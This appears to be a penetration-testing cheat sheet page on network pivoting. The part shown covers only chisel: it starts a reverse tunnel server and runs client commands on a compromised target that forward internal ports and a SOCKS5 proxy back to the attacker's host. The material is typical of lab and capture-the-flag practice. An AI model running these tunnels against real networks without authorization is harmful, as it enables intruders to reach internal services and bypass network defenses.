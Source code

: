 ```yaml
---
title: "Network Traffic Pivoting"
date: 2025-7-25
tags: ["Pivoting", "Sliver", "Pivot", "Chisel", "Ssh", "Network", "Socat", "Port Forwarding", "Tunneling", "Metasploit"]
---
```


{{< tab set1 tab1 >}}chisel{{< /tab >}}
{{< tab set1 tab2 >}}metasploit{{< /tab >}}
{{< tab set1 tab3 >}}ssh{{< /tab >}}
{{< tab set1 tab4 >}}socat{{< /tab >}}
{{< tab set1 tab5 >}}sliver{{< /tab >}}
{{< tabcontent set1 tab1 >}} 

### General

```console
# Start a local chisel server
./chisel server --reverse --port 8000
```

```console {class="sample-code"}
$ ./chisel server --reverse --port 8000 
2024/09/23 12:27:03 server: Reverse tunnelling enabled
2024/09/23 12:27:03 server: Fingerprint ikFn6iQOOodxIlcDQI4dvFu1pdHgV5UnHRenxUg0eho=
2024/09/23 12:27:03 server: Listening on http://0.0.0.0:8000
```

#### Ports Forwarding

```console
# In target machine
./chisel client <LOCAL_IP>:8000 R:<TARGET_PORT>:<TARGET_IP>:<TARGET_PORT>
```

```console {class="sample-code"}
./chisel client 10.10.14.1:8000 R:3000:127.0.0.1:3000
```

```console
# Mutiple ports forwarding, can be different targets in the same subnet
./chisel client <LOCAL_IP>:8000 R:<TARGET_PORT_1>:<TARGET_IP_1>:<TARGET_PORT_1> R:<TARGET_PORT_2>:<TARGET_IP_2>:<TARGET_PORT_2>
```

```console {class="sample-code"}
./chisel client 10.10.14.1:8000 R:8080:172.17.0.2:8080 R:5000:172.17.0.3:5000
```

#### Socks5

```console
# In target machine
./chisel client <LOCAL_IP>:8000 R:1081:socks
```
